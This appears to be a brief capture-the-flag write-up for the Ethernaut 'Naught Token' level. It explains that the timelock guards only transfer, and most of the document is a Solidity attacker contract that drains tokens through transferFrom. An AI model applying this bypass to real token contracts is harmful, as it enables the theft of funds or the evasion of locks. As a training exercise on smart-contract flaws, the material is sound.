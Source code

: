 # Level 15 - Naught Token

- Modifier checks timestamp if transfer method is called. Transfer from can be called.
- Give allowance to spend to another contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface INaughtCoin {
    function transfer(address _to, uint256 _value) external returns (bool);
    function transferFrom(address from, address to, uint256 value) external returns (bool);
}

contract NaughtCoinAttacker {
    address target = 0xF373BcACdFb18e5735f59a7a1A8495a5B0a6Acdf;

    function attack() public {
        INaughtCoin(target).transferFrom(msg.sender, address(1), 1000000000000000000000000);
    }

}
```